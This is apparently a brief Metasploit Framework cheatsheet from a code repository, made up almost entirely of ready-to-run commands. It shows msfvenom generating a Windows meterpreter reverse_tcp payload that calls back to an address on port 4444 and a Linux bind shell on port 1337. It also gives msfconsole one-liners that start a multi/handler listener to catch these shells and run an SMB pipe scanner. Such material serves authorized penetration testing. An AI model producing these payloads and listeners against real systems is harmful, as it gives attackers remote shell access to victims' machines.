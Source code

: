 # Metasploit Framework Cheatsheet



#### Generate a payload

```bash
 msfvenom -p <payload> VAR1=value1 VAR2=value2 -f <format> > outfile
```

##### Examples

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f vbs-exe > meterpreter_reverse_tcp.txt 
```

```bash
msfvenom -p linux/shell/bind_tcp RHOST=0.0.0.0 RPORT=1337 -f elf-so > bind_shell.so
```



#### MSF Console

```bash
msfconsole -x "use exploit/multi/handler ; set PAYLOAD <payload> ; set  VAR1 value1 ; set VAR2 value2 ; exploit ; exit -y;"
```
```bash
msfconsole -x "use auxilliary/scanner/smb/pipe_auditor ; set RHOST <ip> ; exploit ; exit -y;"
```



